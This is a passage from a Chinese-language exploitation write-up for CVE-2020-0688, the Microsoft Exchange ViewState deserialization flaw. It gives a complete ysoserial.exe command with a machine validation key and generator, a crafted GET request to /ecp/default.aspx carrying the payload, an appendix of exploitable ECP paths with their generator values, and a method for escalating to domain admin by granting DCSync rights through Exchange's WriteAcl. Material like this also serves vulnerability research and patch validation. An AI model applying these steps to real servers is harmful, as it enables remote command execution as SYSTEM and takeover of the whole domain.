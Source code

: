`__VIEWSTATEGENERATOR`在`/ecp/default.aspx`的前端页面里面直接获取：

![](resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId25.png)

当拥有了`validationkey`,`validationalg`,`viewstateuserkey`,`__VIEWSTATEGENERATOR`，使用YSoSerial.net生成序列化后的恶意的ViewState数据：

    ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="2fdc8b0d-dcfb-4d0a-b464-95b9a2dcc968" --isdebug –-islegacy

![](resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId26.png)

构造以下URL，使用生成的payload替换，使用上面所说的value值替换，最后用GET请求发送给服务器即可。

    http://www.0-sec.org/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>

![](resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId27.png)

收到dns请求

![](resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId28.png)

由于Exchange
Server的机器用户具备SYSTEM权限，默认在域内拥有WriteAcl的权限，因此，可以通过修改ACL的`DS-Replication-Get-Changes`和`DS-Replication-Get-Changes-All`来赋予任何一个用户Dcsync的权限，所以这个漏洞的最大危害在于：在域内拥有一个普通用户权限的情况下，通过Exchange
Server上以system用户的身份执行任意的命令，再利用Exchange
Server的WriteAcl权限，从而达到域管权限。

### 附录

经过简单测试，已知可利用路径：

    /ecp/default.aspx
    __VIEWSTATEGENERATOR=B97B4E27

    /ecp/PersonalSettings/HomePage.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=1D01FD4E

    /ecp/PersonalSettings/HomePage.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=1D01FD4E

    /ecp/Organize/AutomaticReplies.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/RulesEditor/InboxRules.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/Organize/DeliveryReports.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/MyGroups/PersonalGroups.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=A767F62B

    /ecp/MyGroups/ViewDistributionGroup.aspx?pwmcid=1&id=38f4bec5-704f-4272-a654-95d53150e2ae&ReturnObjectType=1
    __VIEWSTATEGENERATOR=321473B8
